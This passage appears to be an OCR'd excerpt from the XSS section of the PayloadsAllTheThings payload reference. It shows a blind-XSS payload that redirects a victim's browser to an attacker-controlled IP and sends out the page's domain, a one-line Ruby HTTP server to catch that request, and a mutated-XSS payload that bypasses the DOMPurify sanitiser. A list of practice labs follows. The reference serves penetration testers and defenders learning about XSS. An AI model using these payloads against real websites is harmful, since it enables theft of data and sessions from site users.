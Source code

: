 You can use aÂ [Data grabber for XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss)Â and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.

Eg. payload

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```powershell
$ ruby -run -ehttpd . -p8080
```

## Mutated XSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#mutated-xss)

Use browsers quirks to recreate some HTML tags.

**Example**: Mutated XSS from Masato Kinugawa, used againstÂ [cure53/DOMPurify](https://github.com/cure53/DOMPurify)Â component on Google Search.

```js
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

Technical blogposts available at

- [https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)
- [https://research.securitum.com/dompurify-bypass-using-mxss/](https://research.securitum.com/dompurify-bypass-using-mxss/)

## Labs

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#labs)

- [PortSwigger Labs for XSS](https://portswigger.net/web-security/all-labs#cross-site-scripting)
- [Root Me - XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
- [Root Me - XSS - Server Side](https://www.root-me.org/en/Challenges/Web-Server/XSS-Server-Side)
- [Root Me - XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
- [Root Me - XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)
- [Root Me - XSS - Stored - Filter Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
- [Root Me - XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
- [Root Me - XSS DOM Based - AngularJS](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)
- [Root Me - XSS DOM Based - Eval](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)
- [Root Me - XSS DOM Based - Filters Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
- [Root Me - XSS - DOM Based](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
- [Root Me - Self XSS - DOM Secrets](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets)
- [Root Me - Self XSS - Race Condition](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-Race-Condition)
